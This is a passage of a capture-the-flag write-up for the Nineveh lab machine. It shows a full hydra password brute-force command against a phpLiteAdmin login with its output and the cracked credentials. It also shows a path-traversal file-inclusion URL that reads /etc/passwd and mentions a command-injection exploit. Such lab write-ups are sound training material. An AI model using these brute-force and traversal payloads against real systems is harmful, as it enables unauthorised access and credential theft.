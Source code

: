 ```python
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-01 13:52:22
```

We find out the valid credentials of `http://10.10.10.43/department/login.php`.

|Username|Password|
|--|--|
|admin|1q2w3e4r5t|

The site has a page called notes.
![[Pasted image 20210701172103.png]]
We have some notes there but, the most important part is that the url is using a directory name and including it. Most Likely `LFI`able.
We visit this url and get an `LFI` : `http://10.10.10.43/department/manage.php?notes=/files/ninevehNotes.txt/../../../../../etc/passwd`
![[Pasted image 20210701174704.png]]

The SSL Certificate leaks a domain name which we can add to the `/etc/hosts`.
![[Pasted image 20210701131914.png]]

The `https://10.10.14.43/db` is hosting `PHPLiteadmin 1.9` which asks us for the password which we don't know. 
![[Pasted image 20210701161257.png]]
We will need the http POST parameters for bruteforcing with `hydra`.
![[Pasted image 20210701163249.png]]

So, We again start up `hydra` to bruteforce the credentials.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.5]─[~/htb/nineveh]
└──╼ # hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -I
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-01 13:53:49
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-forms://10.10.10.43:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password.
[STATUS] 707.00 tries/min, 707 tries in 00:01h, 14343692 to do in 338:09h, 16 active
[443][http-post-form] host: 10.10.10.43   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-01 13:55:52
```

We find out that the phpliteadmin 1.9 is vulnaerable to a Authenticated php command injection.
![[Pasted image 20210701210747.png]]
The exploit is given underneath.
![[Pasted image 20210701210710.png]]

